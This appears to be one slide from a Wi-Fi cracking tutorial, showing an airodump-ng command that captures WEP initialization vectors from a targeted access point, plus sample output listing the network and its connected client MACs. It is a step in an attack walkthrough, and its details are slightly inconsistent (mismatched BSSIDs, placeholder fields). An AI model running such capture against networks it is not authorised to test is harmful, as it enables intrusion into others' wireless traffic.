

Command-7 ->
	airodump-ng --BSSID 64:EE:B7:C0:D7:16 --channel 1 –w NewFile wlan0
				[-w capture is file name prefix for the file which will contain the IVs.]

	  	                     ⇓⇓⇓⇓ Will SHOW IN THE SCREEN ⇓⇓⇓⇓⇓

	  	 CH  2 ][ Elapsed: 0 s ][ 2022-02-28 02:02

	 	 BSSID              PWR  Beacons    #Data, #/s  CH   MB       ENC    CIPHER  AUTH ESSID

		 64:EE:B7:C0:D7:01   -48      3        101    0  1   270    WEP WEP    PSK  Foyzul-Islam-Riaz

		 BSSID (WIFI)        STATION (USER MAC)  PWR   Rate    Lost    Frames  Notes  Probes
		64:EE:B7:C0:D7:16    11:22:33:44:55:66   @	@	@	@	@	@
		64:EE:B7:C0:D7:16    2D:1C:45:55:CD:55   @	@	@	@	@	 @
		64:EE:B7:C0:D7:16    F1:C2:D3:AB:22:55   @  	@	@	@	@	@